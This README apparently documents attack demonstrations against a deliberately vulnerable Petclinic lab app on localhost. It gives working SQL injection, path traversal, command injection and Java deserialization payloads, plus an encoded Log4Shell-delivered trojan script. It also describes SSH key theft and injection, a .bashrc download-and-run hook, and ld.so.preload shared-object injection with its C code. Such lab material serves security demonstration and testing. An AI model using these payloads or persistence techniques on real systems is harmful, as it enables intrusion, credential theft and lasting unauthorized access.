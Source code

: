 # Traditional Payloads
Each of these payloads first triggers a login to Petclinic and then performs the attack.
## SQL Injection
This is done using the following payload:
```
http://localhost:8080/customers?lastName=%27+or+1%3D1%3B--+
```
This is the equivalent of going to Find Customers page and adding the following to the last name field:
```
' or 1=1;--
```
This will return all customers in the database, by breaking out of the current SQL query and adding a new one that always returns true.

## Path Traversal
The Path Traversal is done using a  feature in the Petclinic application that allows you to upload a picture for a pet and view it.
### File Write
File Write:
```
http://localhost:8080/owners/1/pets/1/upload
```
Which takes a POST request containing a multi-part file upload. The filename field is not sanitized and the uploaded file is written to disk.
### File Read
The File Read is done using an endpoint to read the file from disk.
```
http://localhost:8080/owners/1/pets/getPhotoByPath?photoPath=../../../../../../../../../etc/passwd
```
## Command Injection
The Command injection makes a call to 
```
http:/localhost:8081/cmd?arg=cat%20%2Fetc%2Fpasswd%0A
```
This will execute the command `cat /etc/passwd` and return the results of that command
## Deserialization
The Deserialization attack is done by sending a serialized object to the endpoint
```
http://localhost:8081/deserialize?base64=rO0ABXNyADhvcmcuc3ByaW5nZnJhbWV3b3JrLnNhbXBsZXMuZW1haWxzZXJ2aWNlLm1vZGVsLkVtYWlsRGF0YdBEER%2Fgyw%2FWAgAETAAEYm9keXQAEkxqYXZhL2xhbmcvU3RyaW5nO0wACWNtZFJlc3VsdHEAfgABTAAMZW1haWxBZGRyZXNzcQB%2BAAFMAAdzdWJqZWN0cQB%2BAAF4cHQAD2NhdCAvZXRjL3Bhc3N3ZHB0ABB0ZXN0QGV4YW1wbGUuY29tdAAEdGVzdA%3D%3D
```
This calls cat `/etc/passwd`. 
If you want to generate a payload using a different command, you can use the following code:
```
http://localhost:8081/getPayload?cmd=cat%20%2Fetc%2Fpasswd
```
It will return a base64 encoded payload that that will execute the specified command


# Log4Shell In App Trojan
This is a trojan that can be injected into the Petclinic application using the Log4Shell vulnerability. It is a simple trojan that will execute any command that is passed to it. It is written in Nashorn script and is executed on the JVM.
The trojan when injected will look for incoming web requests to any endpoint that contain the request parameter cac= e.g
```
localhost:8081/someendpoint?cac=base64encodedpayload
```
When this is seen the base64 encoded payload is decoded and passed to the Nashorn Scripting Engine to be executed. So for example the following request.
```
curl 'http://localhost:8081/test?name=test&cac=dmFyIEZpbGVzID0gSmF2YS50eXBlKCJqYXZhLm5pby5maWxlLkZpbGVzIik7CnZhciBQYXRocyA9IEphdmEudHlwZSgiamF2YS5uaW8uZmlsZS5QYXRocyIpOwp2YXIgYnl0ZXMgPSBGaWxlcy5yZWFkQWxsQnl0ZXMoUGF0aHMuZ2V0KCIvZXRjL3Bhc3N3ZCIpKTsKCnZhciBjb250ZW50ID0gbmV3IGphdmEubGFuZy5TdHJpbmcoYnl0ZXMpOwoKY29udGVudDsK'
```
Contains the payload
```
var Files = Java.type("java.nio.file.Files");
var Paths = Java.type("java.nio.file.Paths");
var bytes = Files.readAllBytes(Paths.get("/etc/passwd"));
var content = new java.lang.String(bytes);
content;
```
Which reads the /etc/passwd file and returns it. The trojan takes the returned data, in this case the contents of the `/etc/passwd` file and saves it to the Spring Tomcat static file directory under `/tmp`
. This can then be read by making a follow on call to 
```
http://localhost:8081/faq.html
```


## Trojan Payloads
### Web UI
There is a file under the root of this project called `Payload.html` When opened in a browser it can be used to execute commands in the in app trojan. It simply encodes the data as base64 and sends it to localhost:8081 to be read by the Trojan. The results can be accessed under `http://localhost:8081/faq.html`

### Read /etc/passwd
As mentioned previously this just reads /etc/passwd and stores the result under /faq.html

### SSH Manipulation
The following set of commands lists the contents of the .ssh directory, exfiltrates a private SSH Key and inject a malicious key into the authorized_keys file to allow an attacker to login to the server
#### List .ssh directory
This command lists the files under the .ssh directory
#### Exfiltrate ssh private key
This command reads the contents of the ssh private key named id_ed25519 from the .ssh dir and makes it available under /faq.html
#### Exfiltrate authorized_keys file
This command reads the contents of the authorized_keys file from the .ssh dir and makes it available under /faq.html
#### Modify authorized_keys file
This command injects a malicious public key into the authorized_keys file to allow an attacker to login to the server
### Exfiltrate Application Jar
This command exfiltrates the application jar file and makes it available under /faq.jpeg
### Exfiltrate Application Properties
This command exfiltrates the application properties file and makes it available under /faq.html
### Exfiltrate Headdump
This command generates a heapdump of the application's memory and makes it available under /dump.hprof
### Modify .bashrc File
This command injects a malicious command into the .bashrc file to be executed whenever a user logs in. The malicous command calls curl to download a script from the internet and executes it, the downloaded script modified the authorized_keys file to inject a public key that would allow an attacker to access the server via SSH.
### Shared Object Injection
The following two commands first downloads a shared object file from another server. Then modifies `/etc/ld.so.preload` file to load the shared object file the next time any command on the OS is called.
#### Download Shared Object
Downloads the shared object file
#### Modify ld.so.preload
Modifes the preload file to load the shared object file
The shared object contains the folllowing code.
```cpp
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unlink("/etc/ld.so.preload");
    printf("HACK HACK HAK");
    system("/bin/bash -c \"echo 'I executed a arbitrary command as root to generate this text'>/tmp/command.out\"");
}
```

### Port Scanner
The Port Scanner command scans the ports on the server and other servers on the same network and once complete ( this takes several minutes) it makes the results available under /faq.html
By default the IP Range is :
"172.20.0.1" to "172.20.0.30";
Ports 22, 80, 443,8080,8081;
